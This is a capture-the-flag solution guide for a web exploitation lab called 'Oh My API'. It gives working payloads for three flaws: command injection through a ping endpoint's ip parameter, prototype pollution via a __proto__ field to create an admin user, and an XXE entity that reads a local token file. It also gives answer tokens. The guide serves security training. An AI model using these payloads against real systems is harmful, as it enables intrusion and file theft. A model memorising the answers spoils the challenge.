# Oh My API

*Solution Guide*

## Question 1

*What is the value of the token found in the `token1` file, located at `/home/user/p1/token1` (the same folder as the webserver) on `app1` at `10.5.5.101:8080`.*

1. Analyze the `app1.js.snippet` file in the `hosted_files` directory. Notice the usage of `exec` making this possibly vulnerable to command injection.

```js
...
function controller(req, res) {
    const output = execSync(...);
    res.status(200).send(output);
}
...
```



2. Navigate to the web server at `10.5.5.101:8080`. You will see several links that will perform system functions including



3. If you click on the "Ping Test" you will find that this is the only endpoint that takes in an argument (`/ping`)



4. Craft a custom HTTP request to perform a command injection attack by inserting a bash command into the `?ip` parameter. Start with a simple `ls` to confirm successful exploit

`http://10.5.5.101:8080/ping?ip=127.0.0.1 -c 1 > /dev/null; ls; echo`

The command the server executes looks like this:

```js
"ping ${req.query.ip} -c 1"
```

Note that the command injection attack must first terminate the existing ping command (i.e. `127.0.0.1 -c 1 > /dev/null;`), that can be followed by the malicious command (i.e. `ls;`), and then the attack must handle the remainder of the server's exec command without erroring (i.e. `echo`)

The final command that is executed by the server looks like this:

```js
"ping 127.0.0.1 -c 1 > /dev/null; ls; echo -c 1"
```



5. Identify the `token1` file shown in the result of the `ls` in the previous step. Update the URL for the command injection attack to print out the contents of `token1`

`http://10.5.5.101:8080/ping?ip=127.0.0.1 -c 1 > /dev/null; cat token1; echo`



In this example, the value of token1 is "496a26fa6cfba6bd"

See [./p1.sh](./p1.sh) for the solve code.

## Question 2

*What is the value of the token you receive by running the Grading Check at `challenge.us` after you are able to create a new user on `app2` at `10.5.5.102:8081` with a `userId` of `1337` that has admin permissions.*

1. Analyze the `app2.js.snippet` file in the `hosted_files` directory. Notice that there is an explicit check that will error if the `isAdmin` field is `true`. However, the application attempts to perform a lookup on the provided `userId` and appears to be merging the existing user data with the supplied payload, which could be a potential attack vector. 

```js
...
router.post('/set', (req, res) => {
    const payload = JSON.parse(req.body);
    if (!payload.userId) throw new Error('User ID is required');
    if (payload.isAdmin) throw new Error('Cannot create new admin users');
    const user = userStore[payload.userId] || payload;
    ...
    res.status(200).send('User successfully updated');
});
...
```

2. Navigate to the web server at `10.5.5.102:8081` and explore the different features



By clicking on the "List Users" link, you can get a full user listing and see that there is an existing user with an id of `1234` that has admin permissions. 



You can then use the "Check if a user is admin or not" form to explicitly check if this user, which it is.



Now, try to create a new user using the "Create or update a user" form and view the HTTP request that is sent using the browser developer tools.



You can see that the `isAdmin` field is set to `false` by default, even though that is not a field that is specified explicitly by the form. 

3. Attempt to create a custom HTTP POST request that sets `isAdmin` to `true`

```js
fetch('/set', {
    method : 'POST',
    headers : {
        'Content-Type' : 'application/json'
    },
    body : JSON.stringify({ isAdmin : true, name : "Test", userId : "1337" })
})
.then(response => response.text())
.then(data => alert(data.toString()))
.catch(error => alert('Error: ', error.toString()))
```



When this custom HTTP POST request is executed, an error is returned from the server saying, "Cannot create new admin users". This indicates that another attack vector must be considered. 

4. If you search for "javascript merge vulnerabilities" you should see documentation about [prototype pollution](https://portswigger.net/web-security/prototype-pollution). Effectively, the `__proto__` field is used to specify default values for an object. The vulnerability can be exploited by using the `__proto__` field to set the default value of `isAdmin` to `true`. 

5. Craft a custom HTTP request that sets the `__proto__` field to `{ "isAdmin" : true }`. This will bypass the `isAdmin` check, but still set the `isAdmin` value to false when the data is merged. 

```bash
IP=10.5.5.102
PORT=8081

# Create User
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{ "__proto__" : { "isAdmin" : true }, "userId" : 1337, "name" : "User 1" }' \
  http://$IP:$PORT/set
```

6. Visit the website and use the "Check is Admin" button to verify that the exploit was successful. 



7. After verifying that the exploit was successful, visit the grading sever at `challenge.us` to run the grading check and obtain the token. 



In this example, the token2 is "c83ce890558c5b1a"

See [./p2.sh](./p2.sh) for the solve code

## Question 3

*What is the value of the token found in the `token3` file, located at `/home/user/p3/token3` (the same folder as the webserver) on `app3` at `10.5.5.103:8082`.*

1. Analyze the `app3.js.snippet` file in the `hosted_files` directory. Notice that XML is a supported content type, making the endpoint potentially vulnerable to an XXE file inclusion attack. 

```js
...
router.post('/stockCheck', async (req, res) => {
    if (req.headers.contentType === 'application/x-www-form-urlencoded') {
        ...
    } else if (req.headers.contentType === 'text/xml' || req.headers.contentType === 'application/xml' ) {
        ...
    } else {
        res.status(400).send('Unsupported content type');
    }
});
...
```

2. Navigate to the web server at `10.5.5.103:8082`. 



3. Open the developer tools to check what the payload is when performing a `stockCheck` request

The payload is just `productId : "1"`



4. Craft an equivalent request using an XML content type instead. Verify that the server responds normally. 

```bash
IP=10.5.5.103
PORT=8082

curl --request POST \
    --url http://$IP:$PORT/stockCheck \
    --header 'Content-Type: application/xml' \
    --data '<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>'
```



5. Modify the request to include an XXE attack. 

Create an xxe entity with a filepath that matches the location specified in the prompt, `/home/user/p3/token3`.

```bash
IP=10.5.5.103
PORT=8082

curl --request POST \
    --url http://$IP:$PORT/stockCheck \
    --header 'Content-Type: application/xml' \
    --data '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://home/user/p3/token3"> ]>
<productId>&xxe;</productId>'
```



In this example, the value of token3 is "347e9d17fe7ca082"

See [./p3.sh](./p3.sh) for the solve code